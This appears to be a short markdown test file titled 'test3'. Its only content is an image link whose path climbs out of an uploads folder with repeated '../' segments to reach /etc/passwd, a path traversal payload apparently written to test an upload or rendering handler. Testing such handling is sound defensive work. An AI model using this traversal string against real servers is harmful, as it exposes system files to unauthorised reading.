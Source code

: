 # test3
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
